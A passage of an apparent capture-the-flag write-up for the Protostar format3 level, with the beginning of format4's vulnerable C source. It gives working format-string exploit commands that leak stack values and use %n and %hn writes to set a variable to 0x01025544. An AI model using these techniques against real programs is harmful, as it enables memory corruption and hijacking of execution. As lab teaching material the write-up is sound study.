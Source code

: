 ```bash
user@protostar:/opt/protostar/bin$ python -c "print 'A'*4 + '%x '*11 + '%x ' " | ./format3
AAAA0 bffff5c0 b7fd7ff4 0 0 bffff7c8 804849d bffff5c0 200 b7fd8420 bffff604 41414141 
target is 00000000 :(
```

```bash
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA'+'\xf4\x96\x04\x08'+'BBBB'+'%x '*12 + '%n ' " | ./format3
AAAA?BBBB0 bffff5c0 b7fd7ff4 0 0 bffff7c8 804849d bffff5c0 200 b7fd8420 bffff604 41414141  
target is 0000005d :(

or, equivalently

user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08" + "%12$n"' | /opt/protostar/bin/format3
??
target is 00000004 :(
```

We want to write `0x01025544`, we can do it by write $2$ bytes at the adresses `\xf4\x96\x04\x08` and `\xf6\x96\x04\x08` (because why not) (Note that we use `hn` to write $2$ bytes intead of $4$ )

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%13$hn" + "%12$hn"' | /opt/protostar/bin/format3
???
target is 00080008 :(
```

we can split  `0x01025544` in two $2$ bytes words:

```
0x0102 -> decimal = 258
0x5544 -> decimal = 21828
<low - 8 > = 250
<high - low> = 21570
```

And our exploit can be:

```bash
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%250c" + "%13$hn" + "%21570c"+ "%12$hn"' | /opt/protostar/bin/format3

you have modified the target :)
```

(Spiega perchè si mette prima `"%13$hn"` e po `"%13$hn"`)

#### `(opt/protostar/bin/format4)`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

```